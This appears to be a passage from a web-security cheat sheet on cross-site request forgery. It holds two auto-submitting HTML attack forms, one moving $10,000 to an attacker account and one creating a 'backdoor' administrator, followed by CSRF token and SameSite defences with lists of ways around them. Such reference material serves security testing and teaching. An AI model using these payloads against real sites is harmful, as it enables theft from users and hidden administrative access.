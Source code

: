 ### Fund Transfer

```html
<form action="https://bank.com/transfer" method="POST" id="csrf-form">
    <input type="hidden" name="recipient" value="attacker_account">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="memo" value="Gift">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```

### Account Creation

```html
<form action="https://target.com/create_admin" method="POST" id="csrf-form">
    <input type="hidden" name="username" value="backdoor">
    <input type="hidden" name="password" value="attackerpass123">
    <input type="hidden" name="role" value="administrator">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```

## CSRF Protection Mechanisms & Their Bypasses

### CSRF Tokens

**Protection:**
```html
<form action="/transfer" method="post">
    <input type="hidden" name="csrf_token" value="random_token_tied_to_user_session">
    <input type="text" name="amount">
    <input type="text" name="recipient">
    <input type="submit" value="Transfer">
</form>
```

**Bypasses:**
1. Missing token validation for specific endpoints
2. Predictable tokens
3. Using tokens from another user session
4. Token leakage in URL/JavaScript

### SameSite Cookies

**Protection:**
```
Set-Cookie: session=123; SameSite=Strict; Secure; HttpOnly
```

**Bypasses:**
1. Browser inconsistencies in implementation
2. Older browsers that don't support SameSite
3. Using target site's subdomain (in some configurations)
4. When `SameSite=Lax` is used:
   - Top-level GET requests are still allowed
   - Timing attacks via navigation
